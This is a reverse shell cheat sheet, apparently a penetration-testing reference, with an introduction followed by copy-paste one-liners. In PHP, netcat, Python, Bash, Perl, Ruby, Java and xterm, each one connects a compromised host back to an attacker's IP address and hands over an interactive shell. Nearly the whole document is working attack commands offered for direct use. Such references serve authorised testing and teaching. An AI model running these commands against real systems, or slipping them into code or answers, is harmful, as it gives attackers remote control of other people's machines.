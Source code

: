 # Reverse Shell Cheat Sheet
If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.
Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.
The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.
Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.
# PHP
```
php -r '$sock=fsockopen("10.18.59.236",4545);exec("/bin/sh -i <&3 >&3 2>&3");'
```
# NatCat
```
nc -e /bin/sh 10.18.59.236 2222
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.59.236 4545 >/tmp/f
```
# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.59.236",4545));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# Bash
```
bash -i >& /dev/tcp/10.18.59.236/4545 0>&1
```
# Perl
```
perl -e 'use Socket;$i="10.18.59.236";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
# Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.18.59.236",4545).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
//Untested submission from anonymous reader
```
#XTerm
```
//One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

//To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

//You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip
```
